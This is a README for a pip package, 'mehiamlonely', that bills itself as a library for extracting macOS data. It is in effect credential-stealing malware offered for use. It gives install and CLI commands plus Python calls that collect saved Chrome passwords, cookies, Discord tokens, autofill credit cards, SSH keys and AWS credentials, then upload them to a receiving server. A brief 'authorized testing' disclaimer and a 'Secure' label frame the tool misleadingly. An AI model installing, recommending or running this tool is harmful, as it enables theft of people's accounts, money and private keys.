 # mehiamlonely

A comprehensive Python library for extracting Chrome passwords, cookies, tokens, and macOS file system data, then uploading everything to your FastAPI server.

## Features

- 🔐 **Chrome Data Extraction**: Passwords, cookies, Discord tokens, browser history, localStorage, autofill data, extensions, session data, bookmarks
- 📁 **File System Access**: Browse accessible files including sensitive files on macOS
- 🖥️ **System Information**: Hardware specs, running processes, disk usage, network info, logged-in users
- 🚀 **FastAPI Integration**: Easy upload to your server
- 💻 **CLI Interface**: Simple terminal commands
- 🔒 **Secure**: Uses macOS Keychain for Chrome decryption

## Installation

```bash
pip install mehiamlonely
```

## Quick Start

### 1. Create a FastAPI Server (Optional)

Generate a sample server to test with:

```bash
mehiamlonely --create-server
python sample_server.py
```

### 2. Extract and Upload Data

```bash
# Basic usage - extract and upload to server
mehiamlonely --server http://localhost:8000

# With verbose output
mehiamlonely --server http://localhost:8000 --verbose

# Upload actual files (not just metadata)
mehiamlonely --server http://localhost:8000 --upload-files

# Save data locally and upload
mehiamlonely --server http://localhost:8000 --output data.json

# Test connection without extracting
mehiamlonely --server http://localhost:8000 --test-connection
```

## Programmatic Usage

```python
import mehiamlonely

# Extract all data
data = mehiamlonely.extract_all_data()

# Extract specific components
chrome_data = mehiamlonely.extract_chrome_data()
files = mehiamlonely.extract_system_files()
system_info = mehiamlonely.extract_system_info()

# Upload to server
import asyncio
result = asyncio.run(mehiamlonely.upload_all_data("http://localhost:8000", data))
```

## What Gets Extracted

### Chrome Data
- **Passwords**: Saved login credentials (decrypted using macOS Keychain)
- **Cookies**: Session cookies and authentication tokens
- **Discord Tokens**: Discord authentication tokens from browser storage
- **Browser History**: URLs, titles, visit counts, and timestamps
- **LocalStorage**: Key-value pairs stored by websites
- **Autofill Data**: Credit cards, addresses, and other saved form data
- **Extensions**: Installed browser extensions and their details
- **Bookmarks**: All saved bookmarks
- **Profiles**: Multiple Chrome profiles
- **Preferences**: Browser settings and extensions

### File System
- **User Files**: Desktop, Documents, Downloads, Pictures, Movies, Music, Public
- **System Files**: Applications, Library files, Preferences
- **Sensitive Files**: SSH keys, AWS credentials, bash history, keychain files, config files
- **File Metadata**: Size, modification date, permissions, extensions

### System Information
- **Hardware**: CPU, memory, disk usage, platform details
- **Processes**: Running applications with resource usage
- **Network**: Network interface statistics
- **Users**: Logged-in users information
- **User Info**: Username, hostname, home directory, boot time

## Security & Privacy

- Uses macOS Keychain for Chrome password decryption
- Only accesses files you have permission to read
- No data is stored locally (unless you specify `--output`)
- All communication with server is over HTTP/HTTPS

## API Endpoints

Your FastAPI server should implement these endpoints:

- `GET /api/health` - Health check
- `POST /api/extract` - Receive extracted data
- `POST /api/upload-file` - Receive uploaded files
- `GET /api/data/{client_id}` - Get stored data
- `GET /api/files` - List uploaded files

## Requirements

- macOS (uses macOS-specific APIs)
- Python 3.7+
- Chrome browser installed
- FastAPI server (optional, for receiving data)

## License

MIT License - see LICENSE file for details.

## Disclaimer

This tool is for educational and authorized testing purposes only. Always ensure you have proper authorization before extracting data from any system.
